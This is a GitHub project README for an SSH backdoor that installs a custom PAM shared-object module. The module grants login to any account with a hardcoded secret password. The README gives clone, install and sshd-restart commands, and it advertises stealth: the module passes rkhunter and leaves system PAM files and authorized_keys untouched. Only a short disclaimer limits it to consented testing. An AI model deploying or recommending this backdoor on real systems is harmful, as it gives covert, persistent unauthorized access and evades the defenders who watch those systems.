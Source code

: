 ```
                █████          █████
                ░░███          ░░███
  █████   █████  ░███████    ███████   ██████   ██████  ████████
 ███░░   ███░░   ░███░░███  ███░░███  ███░░███ ███░░███░░███░░███
░░█████ ░░█████  ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███ ░░░
 ░░░░███ ░░░░███ ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███
 ██████  ██████  ████ █████░░████████░░██████ ░░██████  █████
░░░░░░  ░░░░░░  ░░░░ ░░░░░  ░░░░░░░░  ░░░░░░   ░░░░░░  ░░░░░

```
A simple stealth SSH backdoor leveraging PAM shared object (.so) injection to bypass authentication and gain SSH access.

# How it works

This script creates a PAM backdoor by injecting a custom `.so` module that intercepts SSH login attempts. Unlike traditional PAM backdoors that modify existing system files (e.g., `pam_unix.so`), this method creates a separate PAM module, making it less detectable.

When a user attempts to SSH into the system, the injected module captures the password. If the entered password matches the predefined secret password (hardcoded at compile time), authentication is granted regardless of system credentials.

# Usage
```bash
git clone https://github.com/flashnuke/ssh-door.git && cd ssh-door
sudo bash install.sh <predefined_password>
sudo systemctl restart sshd # or 'sudo service sshd restart' for non-systemd
```
Once the script finishes and sshd service is restarted, simply log into the target machine using `ssh <user>@<ip>` and enter the predefined password.

### Usage Example
<img width="415" alt="image" src="https://github.com/user-attachments/assets/e8ef099a-45d7-4351-a784-12cc5a801562" />

### Notes
* Avoids direct modification of system PAM files (`/lib/security/pam_unix.so` remains untouched)
* Passes `rkhunter` (Rootkit Hunter) checks, avoiding common backdoor detection methods
* Does not alter SSH configuration files (i.e `~/.ssh/authorized_keys`...), making it harder to spot
* In rare cases PAM is enabled in `/etc/ssh/sshd_config`

  
### Requirements
* Linux system with PAM-based authentication
* Root access
* SSH service (sshd) running on the target machine

# Disclaimer

This tool is only for testing and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and am not responsible for any misuse or damage caused by this tool and software.

Distributed under the GNU License.
